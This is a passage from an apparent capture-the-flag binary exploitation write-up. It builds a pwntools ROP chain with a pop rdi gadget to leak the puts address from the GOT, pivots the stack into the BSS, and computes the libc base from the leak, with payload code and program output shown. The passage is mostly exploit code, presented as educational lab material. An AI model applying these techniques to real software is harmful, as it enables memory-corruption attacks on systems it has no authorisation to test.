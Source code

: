 
Finally, to avoid losing control, we need to jump back to `menu`, close to where `modify` is called. Again allowing us to input more data into the BSS and to prevent execution of unnecessary functions.

![alt text](images/beforeModify.png)

The rop chain looks like this:
```python
addrMain55 = e.symbols["main"] + 55
# 0x000000000000145b: pop rdi; ret;
gadgetPopRdi = 0x000000000000145b + e.address
rop = convert_case(p64(gadgetPopRdi))
rop += convert_case(p64(e.got["puts"]))
rop += convert_case(p64(addrMain55)) # puts
rop += convert_case(p64(bufferBss))  # to put inside of RBP due to pop at the end of main
rop += convert_case(p64(e.symbols["menu"] + 110)) # before modify
```

Payload to leak puts address:
```python
payload = b"GARBAGEE" # just for alignment
payload += rop.ljust(0x48, b"N")
payload += convert_case(p64(bufferBss - 8)) # to dont mess with the pivoting (reason at then end)
payload += convert_case(p64(e.symbols["menu"] +212)) # Go directly to leave ; ret to execute the ROP chain
r.sendafter(b" 69 characters)", payload)
```

Output:
```bash
String you entered: GARBAGEE[tuuuu
Your string: garbagee[TUUUU
@\xea\xe7\xf7\xff\x7f
Input a string (max length of 69 characters):
```

Leak of puts address:
```python
r.recvuntil(b"garbagee")
r.recvline()
output = r.recvline()

leakPuts = output[:-1]
leakPuts = u64(leakPuts.ljust(8, b"\x00"))
log.info(f"leakPuts: {hex(leakPuts)}")

libc.address = leakPuts - libc.symbols["puts"]
log.info(f"libc: {hex(libc.address)}")
```
